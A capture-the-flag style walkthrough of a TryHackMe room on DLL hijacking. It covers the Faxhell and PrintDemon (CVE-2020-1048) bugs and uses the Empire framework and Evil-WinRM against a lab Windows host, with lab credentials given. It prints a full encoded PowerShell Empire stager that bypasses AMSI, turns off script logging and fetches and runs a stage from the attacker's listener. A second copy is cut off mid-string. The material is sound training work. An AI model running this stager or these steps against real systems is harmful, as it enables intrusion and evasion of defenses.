# DLL HIJACKING

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Medium
Tags: Windows
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Free
Description:
DLL HIJACKING with Invoke-PrintDemon
```

Room link: [https://tryhackme.com/room/dllhijacking](https://tryhackme.com/room/dllhijacking)

## Solution

### Task 1: Overview of DLL Hijacking


[Webpage](https://www.bc-security.org/) | [GitHub](https://github.com/BC-SECURITY) | [Blog](https://www.bc-security.org/blog/) | [Discord](https://discord.com/invite/P8PZPyf)

---------------------------------------------------------------------------------------

[Invoke-PrintDemon](https://github.com/BC-SECURITY/Invoke-PrintDemon) takes advantage of two different vulnerabilities: **Faxhell** and **PrintDemon**. The first is a DLL hijack of the ualapi DLL when the fax service is running (Faxhell).

DLL hijacking vulnerabilities happen when a program attempts to load a DLL from a location and can’t find it. As shown above, the fax service can’t find the `ualapi` DLL when it tries to load it. The fax service runs as `SYSTEM`, so any code executed from the DLL will run in an elevated context. However, we need to write to the privileged folder `C:\Windows\System32` to hijack the DLL.



Missing DLL for Fax Service

[CVE-2020-1048](https://windows-internals.com/printdemon-cve-2020-1048/) allows us to arbitrarily write to anywhere on disk. The linked post about vulnerability is a bit obtuse but works because of three primary concepts.

1. A printer port does not have to be an actual port but instead can be a file location. Think about how you can print files to PDF. This still runs through a "printer port" but writes to a file.
2. The Print Spooler service creates a shadow job file so that printer can recover the job in case of an unexpected interruption of the service.
3. When a print job is started, it inherits the privilege of the user requesting the job.

So initially, when we request a print job, it only has our standard user permissions. However, the shadow job file has no user context attached to it. This means that when the Print Spooler service is restarted and initiates a job from the shadow file and inherits the Print Spooler service's permissions, which is running as `SYSTEM`!

That's a lot of complicated things being explained in a short paragraph, so the key takeaway is that CVE-2020-1048 allows us to tell Print Spooler to write to any arbitrary file. As long as we can restart the Spooler service, we will have the necessary permissions even as a low-level user. Luckily, print jobs survive restarts, and restarting the computer is allowed by any user.

---------------------------------------------------------------------------------------

### Task 2: Install Tools

#### Using the Attackbox

The rest of this task is provided as a reference. Follow these instructions only if you plan to install Empire on your machine. Both Empire and evil-winrm are already installed and available in the AttackBox for your use.

The Empire installation on the Attackbox is dockerized for convenience. To use Empire from the attackbox, just run the following command:

```bash
user@attackbox$ docker run --network host -it --volumes-from empirestorage bcsecurity/empire:v3.5.2 ./empire
```

From Kali machine

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/DLL_HIJACKING]
└─$ docker run --network host -it bcsecurity/empire:v3.5.2 ./empire                             
[*] Loading stagers from: /empire//lib/stagers/
[*] Loading modules from: /empire//lib/modules/
[*] Loading listeners from: /empire//lib/listeners/
[*] Searching for plugins at /empire/plugins
[*] Empire starting up...

                              `````````
                         ``````.--::///+
                     ````-+sydmmmNNNNNNN
                   ``./ymmNNNNNNNNNNNNNN
                 ``-ymmNNNNNNNNNNNNNNNNN
               ```ommmmNNNNNNNNNNNNNNNNN
              ``.ydmNNNNNNNNNNNNNNNNNNNN
             ```odmmNNNNNNNNNNNNNNNNNNNN
            ```/hmmmNNNNNNNNNNNNNNNNMNNN
           ````+hmmmNNNNNNNNNNNNNNNNNMMN
          ````..ymmmNNNNNNNNNNNNNNNNNNNN
          ````:.+so+//:---.......----::-
         `````.`````````....----:///++++
        ``````.-/osy+////:::---...-dNNNN
        ````:sdyyydy`         ```:mNNNNM
       ````-hmmdhdmm:`      ``.+hNNNNNNM
       ```.odNNmdmmNNo````.:+yNNNNNNNNNN
       ```-sNNNmdh/dNNhhdNNNNNNNNNNNNNNN
       ```-hNNNmNo::mNNNNNNNNNNNNNNNNNNN
       ```-hNNmdNo--/dNNNNNNNNNNNNNNNNNN
      ````:dNmmdmd-:+NNNNNNNNNNNNNNNNNNm
      ```/hNNmmddmd+mNNNNNNNNNNNNNNds++o
     ``/dNNNNNmmmmmmmNNNNNNNNNNNmdoosydd
     `sNNNNdyydNNNNmmmmmmNNNNNmyoymNNNNN
     :NNmmmdso++dNNNNmmNNNNNdhymNNNNNNNN
     -NmdmmNNdsyohNNNNmmNNNNNNNNNNNNNNNN
     `sdhmmNNNNdyhdNNNNNNNNNNNNNNNNNNNNN
       /yhmNNmmNNNNNNNNNNNNNNNNNNNNNNmhh
        `+yhmmNNNNNNNNNNNNNNNNNNNNNNmh+:
          `./dmmmmNNNNNNNNNNNNNNNNmmd.
            `ommmmmNNNNNNNmNmNNNNmmd:
             :dmmmmNNNNNmh../oyhhhy:
             `sdmmmmNNNmmh/++-.+oh.
              `/dmmmmmmmmdo-:/ossd:
                `/ohhdmmmmmmdddddmh/
                   `-/osyhdddddhyo:
                        ``.----.`

                Welcome to the Empire
```

Evil-winrm can be used just as any other Linux command by following the instructions in the following tasks.

If you decide against using the Attackbox, the instructions to install both tools follow.

#### Empire

[Empire](https://github.com/BC-SECURITY/Empire) 3 is a post-exploitation framework that includes a pure-PowerShell Windows agent, and compatibility with Python 3.x Linux/OS X agents. It is the merger of the previous PowerShell Empire and Python EmPyre projects. The framework offers cryptologically-secure communications and flexible architecture.



Empire's startup page (Invoke-PrintDemon requires Empire 3.2.3+)

**Install Instructions**

Kali

1. `sudo apt install powershell-empire`

GitHub

1. `git clone https://github.com/BC-SECURITY/Empire.git`
2. `cd Empire`
3. `sudo ./setup/install.sh`

Alternatively, install instructions for Docker and Poetry are on the [Empire Github](https://github.com/BC-SECURITY/Empire#install).

#### Evil-WinRM

WinRM (Windows Remote Management) is the Microsoft implementation of the WS-Management Protocol. A standard SOAP-based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier for system administrators. [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is the ultimate WinRM shell for hacking/pentesting.


Evil-WinRM

1. `git clone https://github.com/Hackplayers/evil-winrm.git`
2. `cd evil-winrm`
3. `gem install evil-winrm`

---------------------------------------------------------------------------------------

### Task 3: Windows Remote Management (WinRM)

Windows Remote Management (WinRM) can be used to login to a user-level account. A few methods exist to deploy an [Empire](https://github.com/BC-SECURITY/Empire) agent, we recommend using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to connect to the target box and then drop-in a multi/launcher to Evil-WinRM session. (We will go over how to build the launcher in the next few tasks).



Connection request using Evil-WinRM

`evil-winrm -i <IP_ADDRESS> -u <USERNAME>`

- **Login**: `Sam`
- **Password**: `azsxdcAZSXDCazsxdc`

---------------------------------------------------------------------------------------

#### Successfully connected to the DLL Hijacking VM with Evil-WinRM

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/DLL_HIJACKING]
└─$ evil-winrm -i 10.64.128.245 -u Sam
Enter Password: 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sam\Documents> 
```

### Task 4: Launch Empire Agent


To create an Empire listener, run the following:

1. `uselistener http`
2. `set Host <Host IP>`
3. `set Port <Port Number>`
4. `execute`



Setting up an HTTP listener in Empire

Return to the main menu by typing `main` and create an Empire stage:

1. `usestager multi/launcher`
2. `set Listener http`
3. `execute`



Generating a Multi/Launcher Stager in Empire

**Note**: Because of this being a walkthrough box on using Invoke-Printdemon, we have disabled Windows Defender, and there is no need to worry about obfuscation.

If you want to learn more about Empire, please check out the [PS Empire room](https://tryhackme.com/room/rppsempire) or the [BC Security blog](https://www.bc-security.org/blog/) for more information.

---------------------------------------------------------------------------------------

#### Created HTTP Listener

```bash
================================================================================
 [Empire]  Post-Exploitation Framework
================================================================================
 [Version] 3.5.2 BC Security Fork | [Web] https://github.com/BC-SECURITY/Empire
================================================================================
 [Starkiller] Multi-User GUI | [Web] https://github.com/BC-SECURITY/Starkiller
================================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|


       312 modules currently loaded

       0 listeners currently active

       0 agents currently active


(Empire) > uselistener http
(Empire: listeners/http) > set host 192.168.144.77
[!] Invalid option specified.
(Empire: listeners/http) > set Host 192.168.144.77
(Empire: listeners/http) > set Port 12345
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > 
```

#### Generated Multi/Launcher Stager

```bash
================================================================================
 [Empire]  Post-Exploitation Framework
================================================================================
 [Version] 3.5.2 BC Security Fork | [Web] https://github.com/BC-SECURITY/Empire
================================================================================
 [Starkiller] Multi-User GUI | [Web] https://github.com/BC-SECURITY/Starkiller
================================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|


       312 modules currently loaded

       1 listeners currently active

       0 agents currently active


(Empire) > usestager multi/launcher
(Empire: stager/multi/launcher) > set Listener http
(Empire: stager/multi/launcher) > execute
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBFAFIAcwBpAE8ATgBUAEEAYgBsAEUALgBQAFMAVgBFAHIAUwBpAE8AbgAuAE0AQQBKAE8AcgAgAC0ARwBFACAAMwApAHsAJABCAGUAMgBFADMAPQBbAHIAZQBGAF0ALgBBAFMAUwBFAG0AYgBMAFkALgBHAEUAdABUAHkAcABlACgAJwBTAHkAcwB0AGUAbQAuAE0AYQBuAGEAZwBlAG0AZQBuAHQALgBBAHUAdABvAG0AYQB0AGkAbwBuAC4AVQB0AGkAbABzACcAKQAuACIARwBFAHQARgBJAEUAYABMAEQAIgAoACcAYwBhAGMAaABlAGQARwByAG8AdQBwAFAAbwBsAGkAYwB5AFMAZQB0AHQAaQBuAGcAcwAnACwAJwBOACcAKwAnAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQA7AEkARgAoACQAYgBlADIAZQAzACkAewAkADgARgBhADEAYgA9ACQAQgBFADIARQAzAC4ARwBlAFQAVgBhAGwAdQBFACgAJABuAFUAbABMACkAOwBJAGYAKAAkADgARgBhADEAYgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkADgAZgBhADEAQgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJAA4AEYAQQAxAEIAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnAF0APQAwAH0AJAB2AEEAbAA9AFsAQwBvAGwATABFAGMAdABpAE8ATgBzAC4ARwBlAG4ARQByAEkAQwAuAEQAaQBDAFQASQBPAE4AQQByAFkAWwBTAHQAUgBpAG4AZwAsAFMAWQBzAHQARQBNAC4ATwBCAGoAZQBDAFQAXQBdADoAOgBuAGUAdwAoACkAOwAkAHYAYQBsAC4AQQBkAGQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcALAAwACkAOwAkAFYAYQBMAC4AQQBkAGQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAbABvAGMAawBJAG4AdgBvAGMAYQB0AGkAbwBuAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAOABmAGEAMQBCAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAHYAYQBMAH0ARQBsAFMAZQB7AFsAUwBjAFIASQBwAHQAQgBMAE8AYwBrAF0ALgAiAEcAZQBUAEYAaQBlAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAGEATABVAEUAKAAkAE4AdQBsAGwALAAoAE4ARQB3AC0ATwBCAGoARQBjAFQAIABDAE8ATABMAEUAYwBUAEkAbwBuAHMALgBHAGUATgBlAFIASQBDAC4ASABBAFMASABTAGUAVABbAHMAVABSAEkATgBnAF0AKQApAH0AJABSAGUARgA9AFsAUgBFAGYAXQAuAEEAcwBzAEUATQBiAGwAWQAuAEcAZQB0AFQAWQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBFAHQARgBJAEUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATABVAGUAKAAkAE4AdQBsAEwALAAkAFQAcgB1AEUAKQA7AH0AOwBbAFMAeQBTAFQARQBNAC4ATgBlAHQALgBTAEUAUgBWAEkAYwBFAFAAbwBpAE4AdABNAEEATgBhAGcAZQBSAF0AOgA6AEUAWABwAEUAQwBUADEAMAAwAEMAbwBuAFQASQBuAFUARQA9ADAAOwAkAGUANgBjAGMANQA9AE4ARQB3AC0ATwBiAGoAZQBjAFQAIABTAHkAcwB0AEUATQAuAE4ARQBUAC4AVwBFAGIAQwBsAGkAZQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABzAGUAcgA9ACQAKABbAFQARQBYAHQALgBFAG4AYwBvAGQAaQBOAGcAXQA6ADoAVQBOAEkAQwBvAGQAZQAuAEcAZQB0AFMAdAByAEkATgBHACgAWwBDAE8ATgB2AEUAcgB0AF0AOgA6AEYAcgBvAE0AQgBhAFMAZQA2ADQAUwB0AFIAaQBuAEcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAeABBAEQAawBBAE0AZwBBAHUAQQBEAEUAQQBOAGcAQQA0AEEAQwA0AEEATQBRAEEAMABBAEQAUQBBAEwAZwBBADMAQQBEAGMAQQBPAGcAQQB4AEEARABJAEEATQB3AEEAMABBAEQAVQBBACcAKQApACkAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJABFADYAYwBjADUALgBIAGUAQQBEAEUAcgBTAC4AQQBkAEQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJABlADYAQwBjADUALgBQAHIAbwB4AHkAPQBbAFMAWQBTAHQARQBNAC4ATgBlAHQALgBXAEUAYgBSAEUAUQB1AGUAUwB0AF0AOgA6AEQARQBGAEEAdQBsAFQAVwBlAEIAUABSAE8AWABZADsAJABFADYAQwBDADUALgBQAFIATwB4AFkALgBDAHIAZQBEAEUATgB0AEkAQQBMAFMAIAA9ACAAWwBTAHkAUwB0AGUAbQAuAE4AZQBUAC4AQwByAEUAZABFAG4AVABJAEEATABDAGEAYwBIAGUAXQA6ADoARABlAGYAQQBVAEwAdABOAEUAdABXAE8AcgBLAEMAcgBFAEQAZQBuAHQASQBhAGwAUwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJABlADYAYwBjADUALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBTAFQAZQBtAC4AVABFAHgAdAAuAEUAbgBDAE8ARABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAEUAVABCAFkAVABFAHMAKAAnAGEAdwBYAFUARABrAGkAdAA8AG8AVgA5AEoAYwBSAE8ATAB7ACUAZwBRAC4AfAAzAG4ASABxAE0AcABBAC8AbAAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAEcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMATwBVAG4AVABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBCAFgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAEUANgBjAEMANQAuAEgAZQBhAEQARQByAHMALgBBAEQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAcQBhAFUAbwBCAGcAegA9AHcAawArAHQAOAA5AHgATQBSAFUATgBqAFUAcgBtAGsASQBLAFgAQQAzAHoATQBrADcARgBrAD0AIgApADsAJABEAEEAVABhAD0AJABlADYAQwBDADUALgBEAE8AdwBOAGwATwBhAEQARABhAHQAYQAoACQAcwBlAFIAKwAkAFQAKQA7ACQASQB2AD0AJABEAGEAVABBAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAGEAdABBAC4ATABFAE4ARwB0AGgAXQA7AC0AagBvAGkATgBbAEMASABBAFIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
(Empire: stager/multi/launcher) > 
```

### Task 5: Deploy an Agent

Evil-WinRM provides access to a PowerShell prompt for launching commands. This gives a few different options for delivering your payload (e.g., bat, exe, wget). You can choose whichever one you want, otherwise, the simplest solution is to launch the one-liner directly in the Evil-WinRM window.

`powershell -noP -sta -w 1 -enc XXXXXXXX`



Launching Empire Stager inside of Evil-WinRM

This should cause the agent to connect back to Empire, showing the following lines in your Empire console:

```bash
[*] Sending POWERSHELL stager (stage 1) to 10.10.117.40
[*] New agent N3ELF241 checked in
[+] Initial agent N3ELF241 from 10.64.128.245 now active (Slack)
[*] Sending agent (stage 2) to N3ELF241 at 10.64.128.245
```

To interact with the agent, you need to run the following commands, replacing the corresponding agent name on the second command:

1. `agents`
2. `interact N3ELF241`

---------------------------------------------------------------------------------------

#### Stager successfully calls back to Empire from Evil-WinRM

Launch stager from Evil-WinRM

```bash
*Evil-WinRM* PS C:\Users\Sam\Documents> powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBFAFIAcwBpAE8ATgBUAEEAYgBsAEUALgBQAFMAVgBFAHIAUwBpAE8AbgAuAE0AQQBKAE8AcgAgAC0ARwBFACAAMwApAHsAJABCAGUAMgBFADMAPQBbAHIAZQBGAF0ALgBBAFMAUwBFAG0AYgBMAFkALgBHAEUAdABUAHkAcABlACgAJwBTAHkAcwB0AGUAbQAuAE0AYQBuAGEAZwBlAG0AZQBuAHQALgBBAHUAdABvAG0AYQB0AGkAbwBuAC4AVQB0AGkAbABzACcAKQAuACIARwBFAHQARgBJAEUAYABMAEQAIgAoACcAYwBhAGMAaABlAGQARwByAG8AdQBwAFAAbwBsAGkAYwB5AFMAZQB0AHQAaQBuAGcAcwAnACwAJwBOACcAKwAnAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQA7AEkARgAoACQAYgBlADIAZQAzACkAewAkADgARgBhADEAYgA9ACQAQgBFADIARQAzAC4ARwBlAFQAVgBhAGwAdQBFACgAJABuAFUAbABMACkAOwBJAGYAKAAkADgARgBhADEAYgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkADgAZgBhADEAQgBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJAA4AEYAQQAxAEIAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnAF0APQAwAH0AJAB2AEEAbAA9AFsAQwBvAGwATABFAGMAdABpAE8ATgBzAC4ARwBlAG4ARQByAEkAQwAuAEQAaQBDAFQASQBPAE4AQQByAFkAWwBTAHQAUgBpAG4AZwAsAFMAWQBzAHQARQBNAC4ATwBCAGoAZQBDAFQAXQBdADoAOgBuAGUAdwAoACkAOwAkAHYAYQBsAC4AQQBkAGQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcALAAwACkAOwAkAFYAYQBMAC4AQQBkAGQAKAAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAbABvAGMAawBJAG4AdgBvAGMAYQB0AGkAbwBuAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAOABmAGEAMQBCAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAHYAYQBMAH0ARQBsAFMAZQB7AFsAUwBjAFIASQBwAHQAQgBMAE8AYwBrAF0ALgAiAEcAZQBUAEYAaQBlAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAGEATABVAEUAKAAkAE4AdQBsAGwALAAoAE4ARQB3AC0ATwBCAGoARQBjAFQAIABDAE8ATABMAEUAYwBUAEkAbwBuAHMALgBHAGUATgBlAFIASQBDAC4ASABBAFMASABTAGUAVABbAHMAVABSAEkATgBnAF0AKQApAH0AJABSAGUARgA9AFsAUgBFAGYAXQAuAEEAcwBzAEUATQBiAGwAWQAuAEcAZQB0AFQAWQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBFAHQARgBJAEUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATABVAGUAKAAkAE4AdQBsAEwALAAkAFQAcgB1AEUAKQA7AH0AOwBbAFMAeQBTAFQARQBNAC4ATgBlAHQALgBTAEUAUgBWAEkAYwBFAFAAbwBpAE4AdABNAEEATgBhAGcAZQBSAF0AOgA6AEUAWABwAEUAQwBUADEAMAAwAEMAbwBuAFQASQBuAFUARQA9ADAAOwAkAGUANgBjAGMANQA9AE4ARQB3AC0ATwBiAGoAZQBjAFQAIABTAHkAcwB0AEUATQAuAE4ARQBUAC4AVwBFAGIAQwBsAGkAZQBuAHQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABzAGUAcgA9ACQAKABbAFQARQBYAHQALgBFAG4AYwBvAGQAaQBOAGcAXQA6ADoAVQBOAEkAQwBvAGQAZQAuAEcAZQB0AFMAdAByAEkATgBHACgAWwBDAE8ATgB2AEUAcgB0AF0AOgA6AEYAcgBvAE0AQgBhAFMAZQA2ADQAUwB0AFIAaQBuAEcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAeABBAEQAawBBAE0AZwBBAHUAQQBEAEUAQQBO